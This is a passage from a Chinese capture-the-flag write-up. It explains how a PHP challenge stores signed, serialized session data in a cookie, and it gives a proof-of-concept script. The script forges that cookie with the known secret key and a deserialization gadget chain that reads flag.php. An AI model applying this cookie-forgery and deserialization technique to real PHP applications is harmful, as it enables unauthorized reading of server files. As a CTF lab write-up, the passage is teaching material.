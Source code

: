 ```php

    public function __destruct()
    {
        echo $this->msg;
    }
}
```
>能够发现抽卡数据存放在`Session`类中的`sessionData`，`sessionData`被序列化后保存在客戶端cookie中并签名，当发回服务端后会使用`SECRET_KEY`验证。但是有了源码我们就能够伪造`cookie`并控制`unserialize()`函数的参数
于是就找到类反序列化的点，现在只需要构造反序列化链来完成攻击。可以⽤ `Eeeeeeevallllllll` 类的 `__desctruct()` 魔术⽅法来触发 `CardsPool` 的 `__toString()` ⽅法

POC:
```php
<?php
class Eeeeeeevallllllll{
	public $msg="坏坏liki到此⼀游";
	public function __destruct()
	{
		echo $this->msg;
	}
}

class CardsPool
{
	private $file;
	public function __construct($file)
	{
		$this->file=$file;
	}
	
	public function __toString(){
		return file_get_contents($this->file);
	}
}

$eval = new Eeeeeeevallllllll();
$cards = new CardsPool("./flag.php");
$eval->msg = $cards;

const SECRET_KEY = "7tH1PKviC9ncELTA1fPysf6NYq7z7IA9";

$serialized = serialize($eval);
$sign = base64_encode(md5($serialized . SECRET_KEY));
$value = base64_encode($serialized) . "." . $sign;
echo $value;
```
![](https://img-blog.csdnimg.cn/20210304103742912.png)
然后抓包修改cookie即可得到flag
![](https://img-blog.csdnimg.cn/20210304103634110.png)

